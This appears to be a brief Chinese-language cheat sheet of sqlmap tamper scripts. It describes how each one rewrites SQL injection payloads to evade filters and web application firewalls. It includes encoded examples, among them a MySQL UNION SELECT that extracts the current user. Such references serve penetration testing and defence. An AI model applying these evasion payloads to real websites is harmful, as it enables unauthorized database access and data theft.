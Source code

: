 * apostrophemask.py

　　作用：用utf8代替引号


* equaltolike.py

　　作用：like 代替等号

　　Example:
``` bash
   Input: SELECT * FROM users WHERE id=1

   Output: SELECT * FROM users WHERE id LIKE 1
```


* space2dash.py

　　作用：绕过过滤‘=’ 替换空格字符（”），（’ – ‘）后跟一个破折号注释，一个随机字符串和一个新行（’ n’）
　　Example:
``` bash
   ('1 AND 9227=9227') '1--nVNaVoPYeva%0AAND--ngNvzqu%0A9227=9227'
```

* greatest.py

　　作用：绕过过滤’>’ ,用GREATEST替换大于号。
　　Example:
``` bash
   ('1 AND A > B') '1 AND GREATEST(A,B+1)=A' 
```


* space2hash.py

　　作用：空格替换为#号 随机字符串 以及换行符

　　Example:

``` bash
   Input: 1 AND 9227=9227
    Output: 1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227
```
* apostrophenullencode.py

　　作用：绕过过滤双引号，替换字符和双引号。
　　Example: 
``` bash
   tamper("1 AND '1'='1") '1 AND %00%271%00%27=%00%271'

```


* halfversionedmorekeywords.py

　　作用：当数据库为mysql时绕过防火墙，每个关键字之前添加mysql版本评论


　　Example:
``` bash
   ("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() 
   AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa") 
   　"value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa"

```

